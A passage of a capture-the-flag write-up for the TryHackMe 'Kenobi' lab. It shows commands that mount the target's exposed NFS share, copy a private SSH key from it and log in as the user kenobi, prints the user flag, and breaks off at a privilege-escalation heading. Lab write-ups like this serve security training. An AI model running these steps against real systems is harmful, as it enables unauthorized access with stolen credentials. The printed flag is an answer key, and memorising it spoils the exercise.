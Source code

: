 `No answer needed`

5. Lets mount the /var/tmp directory to our machine

`mkdir /mnt/kenobiNFS`

`sudo mount 10.10.222.46:/var /mnt/kenobiNFS`

`ls -la /mnt/kenobiNFS`

![](https://i.imgur.com/v8Ln4fu.png)

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.

![](https://i.imgur.com/Vy4KkEl.png)

What is Kenobi's user flag (/home/kenobi/user.txt)?

```
kali@kali:~/CTFs/tryhackme/Kenobi$ cp /mnt/kenobiNFS/tmp/id_rsa .
kali@kali:~/CTFs/tryhackme/Kenobi$ chmod 600 id_rsa
kali@kali:~/CTFs/tryhackme/Kenobi$ ssh -i id_rsa kenobi@10.10.222.46
The authenticity of host '10.10.222.46 (10.10.222.46)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.222.46' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt 
d0b0f3f53b6caa532a83915e19224899
kenobi@kenobi:~$ 
```

`d0b0f3f53b6caa532a83915e19224899`

## Privilege Escalation with Path Variable Manipulati

![](https://i.imgur.com/LN2uOCJ.png)
